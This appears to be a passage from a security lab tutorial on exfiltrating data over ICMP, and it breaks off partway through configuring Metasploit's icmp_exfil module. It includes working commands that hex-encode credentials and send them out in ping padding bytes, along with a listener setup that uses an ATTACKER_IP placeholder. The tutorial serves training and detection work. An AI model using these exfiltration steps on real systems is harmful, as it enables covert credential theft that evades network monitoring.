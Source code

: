 ![Wireshark Echo Request Capture](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/3e8367a535e3f7f4076986987b9e0dcd.png)

The packet's Data section has been filled with random strings, but it can also be filled with user-defined data. In Linux, the `ping` command has the `-p` option available which can help us do that. According to its [man](https://linux.die.net/man/8/ping) page:

>**-p _pattern_**
>
>You may specify up to 16 ''pad'' bytes to fill out the packet you send. This is useful for diagnosing data-dependent problems in a network. For example, **-p ff** will cause the sent packet to be filled with all ones.

This option allows the user to **specify 16 bytes of data in hex format** to send through the packet. For example, if we want to exfiltrate the following credentials: `thm:tryhackme`, we would need to first convert the data to hex, and then pass them to the `ping` command via the `-p` option:

```shell
# convert data to hex
echo "thm:tryhackme" | xxd -p
#  74686d3a7472796861636b6d650a

# pass the hexed data to ping via the pattern option
ping 10.10.98.183 -c 1 -p  74686d3a7472796861636b6d650a
```

By capturing the above packet in Wireshark, we can see that we successfully managed to perform manual ICMP data exfiltration!

![Manul ICMP Data Exfiltration - Wireshark capture](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/6a086470f770c67c0a07f9572088e5e1.png)

### 6.2 ICMP Data Exfiltration with Metasploit

Metasploit has a module called `icmp_exfil` which uses the same technique we just performed. This module waits to receive a trigger value in order to start writing the data to the disk and then for another trigger value in order to stop. These trigger values are called **Beginning of File (BOF)** and **End of File (EOF)**, respectively.

![Metasploit icmp_exfil BOF and EOF](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/b45715c44b5998fa9bf6a989b1e0d8d6.png)

1. Let's see how to setup Metasploit's `icmp_exfil` module:

    ```shell
    # launch metasploit
    $ sudo msfconsole

    # use the icmp_exfil module
    msf6 > use auxiliary/server/icmp_exfil

    # define the required options
    msf6 auxiliary(server/icmp_exfil) > set BPF_FILTER icmp and not src ATTACKER_IP
    # BPF_FILTER => icmp and not src ATTACKER_IP
    msf6 auxiliary(server/icmp_exfil) > set INTERFACE tun0
    # INTERFACE => tun0

